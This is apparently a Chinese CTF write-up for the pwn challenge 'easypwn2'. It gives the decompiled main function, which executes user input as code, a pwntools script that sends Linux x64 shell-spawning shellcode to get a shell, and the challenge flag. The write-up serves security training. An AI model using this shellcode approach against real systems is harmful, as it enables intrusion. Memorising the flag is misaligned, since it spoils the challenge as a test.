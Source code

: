 # easypwn2
```
nc seclabs.cn 5117

急需pwn哥哥，白给分数了，现在开始学也能做得出来的，加油
```
[pwn2](attachment/pwn2)
## WriteUp
ida反编译，只有一个函数
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  setbuf(stdin, 0LL);
  setbuf(stdout, 0LL);
  printf("%p\n", &buf);
  printf("shellcode:");
  read(0, &buf, 0x100uLL);
  return (buf)(0LL, &buf);
}
```

这题直接没人做了是让我最神奇的，因为这题只要你随便去抄一个`linux x64`下getshell的shellcode都能拿到shell,本来我是想说给个地址让你们输入flag后再自己跳转执行，后来想想还是算了，输入就直接执行吧，结果还是惨惨


### EXP
```python
from pwn import*
context(os='linux',arch='amd64',log_level='debug')
n = process('./pwn2')

#sc = '\x50\x48\x31\xd2\x48\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x54\x5f\xb0\x3b\x0f\x05'
sc = asm(shellcraft.sh())
n.recvuntil('shellcode:')
n.sendline(sc)

n.interactive()
```


## flag

`flag{e16486ee-f54f-11e9-81a8-000c29ad2ad8}`
